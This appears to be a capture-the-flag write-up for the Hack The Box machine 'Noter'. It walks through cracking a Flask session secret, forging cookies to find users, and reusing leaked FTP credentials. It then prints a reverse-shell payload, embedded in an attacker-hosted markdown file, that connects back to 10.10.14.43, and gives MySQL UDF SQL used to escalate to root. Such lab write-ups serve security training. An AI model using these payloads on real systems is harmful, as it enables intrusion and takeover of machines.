

# Noter Machine
<p align="center">

</p>

## Machine Stats :
<p align="center">

</p>


# Walkthrough :

I started as always by scanning the machine ports :


* SSH on port 22.

* FTP on 21.

* A web server on port 5000.


I tried anonymous login on FTP but that didn't work. So i decided to look at the web server on port 5000. It was a flask web app that provides users with a database to store and manage notes.


Trying common logins and passwords (admin:admin, *:*, root:root ...) or triggering an SQL error wasn't fruitful.
So i decided to register a user Tom to be able to further explore the app.


While inspecting the intercepted requests on burp, i found out that a session token (looks like JWT) is used.
I decoded it with jwt.io which revealed an awkward payload and an interesting header.


It wasn't a typical jwt which often looked more like this (with a valid signature):


I figured out that it was a flask token thanks to Carlos Polop's HackTricks (https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask/).
Using flask_unsign with a rockyou.txt as a wordlist was good enough to reveal the secret.


I'm now able to craft my own tokens using the same tool to bruteforce usernames.
All i needed was a bash script and a good wordlist to generate my tokens:


I used ffuf using my generated tokens as a session value and there was 2 200 HTTP responses (A wrong token redirects to /login).


A username "user" which was useless and another one named "blue" which had some stored notes.

One note written by ftp_admin exposed the FTP username and password of blue.


I used these creds to access FTP on port 21. It had an empty directory and a pdf file that exposed the company's password policy.
Reading only the title, i thought i only had some additional specifications making password guessing easier, but it specified the way default passwords are generated.


I tried to FTP using user:user@Noter! but it failed it made me think that it was just an account created by another HTB player. (i was so desperate that i tried root:root@Noter! too)
But there was a potential username that i didn't use yet, so i decided to give it a shot.
ftp_admin:ftp_admin@Noter! was the one.


i downloaded and decompressed the zip files and now i finally have the app's source code xD.


the app.py file had the database credentials


Through the templates folder, i discovered hidden paths import_note and export_note which looked promising with the "Export directly from cloud" feature.


Its backend code was in md_to_pdf.js. And Google proved again that it's my best friend, revealing an RCE vulnerability:


The only proof of concept i found was a local one :


But in my case i hosted a markdown file (.md) with a reverse shell payload:

``` ---js\n((require("child_process")).execSync("bash -i >& /dev/TCP/10.10.14.43/4444 0>&1"))\n--- ```

I prepared my listener and requested my malicious MD file (http://10.10.14.43:80/a.md) from the vulnerable server to trigger the rce but it didn't work, i didn't catch a shell. 



I had this problem before and i thought i had a trick to fix it which was wrapping the rev shell in bash -c ''.
It was better but i still didn't get an interactive shell.


Looking again at the public proof of concept i had an idea of separating the shell and the rce payload.
And successfully got a shell.


Running linpeas revealed an open MySQL port and i already have the root creds.
After some searching i found this Privilege Escalation with MySQL User Defined Functions:
https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library


I downloaded the library compiled it and made a text file containing the payload to copy the root flag to /tmp and make it readable.

``` 
use MySQL;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/x86_64-Linux-gnu/mariadb19/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /root/root.txt /tmp; chown svc svc /tmp/root.txt;');
 ```

And now i have the root flag.


Made by Fckroun with <3
